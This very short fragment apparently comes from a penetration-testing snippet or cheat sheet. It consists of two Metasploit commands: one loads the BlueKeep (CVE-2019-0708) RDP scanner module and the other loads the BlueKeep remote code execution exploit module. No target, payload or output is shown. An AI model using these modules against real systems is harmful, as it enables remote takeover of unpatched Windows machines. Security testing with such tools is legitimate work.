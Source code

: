 ```bash
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```